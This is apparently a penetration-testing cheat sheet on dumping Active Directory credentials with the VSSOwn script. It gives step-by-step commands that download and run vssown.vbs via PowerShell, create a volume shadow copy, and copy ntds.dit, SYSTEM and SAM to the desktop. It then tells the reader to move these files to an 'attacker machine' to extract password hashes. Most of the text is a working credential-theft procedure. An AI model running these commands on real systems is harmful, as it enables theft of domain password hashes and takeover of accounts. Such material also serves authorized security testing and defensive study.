

vssOwn (Powershell 2.0+)
VSSOwn
Because vssadmin in Powershell 2 is not capable of creating Volume Shadow Copies (VSCs) from the
command line, we can use VSSOwn.
VSSOwn is a Visual Basic Script created by Tim Tomes and Mark
Baggett.
Create a shadow copy of ntds.dit
PS> (New-Object System.Net.WebClient).downloadfile("https://raw.githubusercontent.com/lanmaster53/ptscripts/master/windows/vssown.vbs","$env:userprofile\desktop\vssOwn.vbs");
PS> cd $env:userprofile\desktop\
PS> cscript vssown.vbs /status
PS> cscript vssown.vbs /start
PS> cscript vssown.vbs /create C #Create a shadow copy of ntds.dit for the specified drive letter C
We have to execute
these commands from Command Line(cmd) otherwise they will not work.
The file will be copied in the current
directory, because of the “.”
C:\Users\Administrator\Desktop> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit .
C:\Users\Administrator\Desktop> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\SYSTEM .
C:\Users\Administrator\Desktop> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\SAM .
C:\Users\Administrator\Desktop> cscript vssown.vbs /stop #stop VSS service using vssown.vbs
Besides of ntds.dit we need also SYSTEM and SAM portions of the Registry because they contain the
decryption keys needed to extract the hashes from the ntds.dit file.
Now we have to Download these three
files(ntds.dit, SYSTEM, SAM) on the Attacker machine and use a parsing digital forensic tool like the one from Csaba
Barta to extract the hashes from the ntds.dit file using SYSTEM and SAM.
An Explanation on how it works here:
https://www.exploit-db.com/docs/english/18244-active-domain-offline-hash-dump-&-forensic-analysis.pdf